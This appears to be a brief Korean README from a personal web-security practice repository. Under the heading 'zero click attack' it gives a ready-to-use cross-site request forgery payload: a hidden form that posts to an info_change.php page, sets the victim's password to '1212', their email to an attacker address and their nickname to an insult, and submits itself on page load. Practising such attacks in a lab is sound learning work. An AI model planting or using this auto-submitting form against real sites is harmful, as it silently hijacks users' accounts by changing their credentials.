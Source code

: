 # web3

<h1> 웹 보안 연습용 </h1> 
<p> 2021년 6월 12일 시작 </p>

  * <h3>제로 클릭 어택 </h3>


          <form  id="hack" action="../info_change.php" method="POST">
          <input type="hidden" name="user_pw1" value="1212" >
          <input type="hidden" name="user_pw2" value="1212" >
          <input type="hidden" name="age" value="50">
          <input type="hidden" name="nick" value="멍청이">
          <input type="hidden" name="email" value="hack@kh.com">
          </form>
          <script>
          document.getElementById("hack").submit();
          </script    >

